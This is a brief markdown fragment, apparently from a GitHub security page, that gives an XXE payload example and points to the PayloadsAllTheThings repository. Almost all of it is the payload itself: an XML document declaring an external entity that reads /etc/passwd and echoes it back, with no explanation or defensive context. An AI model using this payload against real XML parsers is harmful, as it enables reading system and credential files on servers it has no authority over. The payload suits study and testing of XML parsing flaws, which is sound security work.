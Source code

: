 # PAYLOAD EXAMPLE:

#### <?xml version="1.0"?>

#### <!DOCTYPE example [<!ENTITY read SYSTEM 'file://etc/passwd'>]>

#### <example> &read;</example>

## Resource: https://github.com/swisskyrepo/PayloadsAllTheThings
